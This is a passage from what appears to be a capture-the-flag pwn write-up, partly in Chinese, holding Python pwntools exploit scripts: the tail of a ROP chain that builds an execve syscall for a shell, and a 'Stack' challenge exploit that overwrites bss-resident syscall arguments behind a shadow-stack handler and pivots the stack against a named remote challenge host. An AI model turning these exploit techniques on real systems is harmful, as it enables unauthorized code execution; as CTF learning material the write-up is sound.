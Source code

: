 ```python
p += pack('<I', 0x08060bd1) # pop edx ; ret
p += pack('<I', 0x080ee068) # @ .data + 8
p += pack('<I', 0x080507e0) # xor eax, eax ; ret
p += pack('<I', 0x080597c2) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x08049022) # pop ebx ; ret
p += pack('<I', 0x080ee060) # @ .data
p += pack('<I', 0x08049802) # pop ecx ; ret
p += pack('<I', 0x080ee068) # @ .data + 8
p += pack('<I', 0x08060bd1) # pop edx ; ret
p += pack('<I', 0x080ee068) # @ .data + 8
p += pack('<I', 0x080507e0) # xor eax, eax ; ret
p += pack('<I', 0x08082bbe) # inc eax ; ret
p += pack('<I', 0x08082bbe) # inc eax ; ret
p += pack('<I', 0x08082bbe) # inc eax ; ret
p += pack('<I', 0x08082bbe) # inc eax ; ret
p += pack('<I', 0x08082bbe) # inc eax ; ret
p += pack('<I', 0x08082bbe) # inc eax ; ret
p += pack('<I', 0x08082bbe) # inc eax ; ret
p += pack('<I', 0x08082bbe) # inc eax ; ret
p += pack('<I', 0x08082bbe) # inc eax ; ret
p += pack('<I', 0x08082bbe) # inc eax ; ret
p += pack('<I', 0x08082bbe) # inc eax ; ret
p += pack('<I', 0x08049c6a) # int 0x80
io.send(p)
pause()
payload=p32(0x080EF324)*0x35
#gdb.attach(io)
io.sendline(payload)
io.interactive()
```

## Stack | FINISHED - 01

![](https://bucket-of-spreng.oss-cn-beijing.aliyuncs.com/img/20250505205918555.png)

![](https://bucket-of-spreng.oss-cn-beijing.aliyuncs.com/img/20250505205918556.png)

存在溢出,但本题存在一个模拟影子堆栈的机制会对返回地址进行检查

![](https://bucket-of-spreng.oss-cn-beijing.aliyuncs.com/img/20250505205918557.png)

如果返回地址被修改则进入异常处理函数

![](https://bucket-of-spreng.oss-cn-beijing.aliyuncs.com/img/20250505205918558.png)

异常处理函数本来是write异常然后exit退出

但是write的调用怎么把调用号到参数都放在bss上,而且我们一开始可以向bss写入数据,那是不是我们可以覆盖fd,buf,count和系统调用号使之执行execv("/bin/sh",0,0)?

是的

```python
from pwn import *
#io=process('./pwn')
io=remote("node1.tgctf.woooo.tech",32136)
context.arch='amd64'
def bug():
    gdb.attach(io)
leave=0x40122B
payload=b'/bin/sh\x00'.ljust(0x40,b'\x00')+p64(0x3b)+p64(0x404108)+p64(0)*2
io.sendafter(b"welcome! could you tell me your name?\n",payload)
io.recvuntil(b'what dou you want to say?\n')
bss=0x404800
payload=b'a'*0x40+p64(bss)+p64(leave)
io.send(payload)
```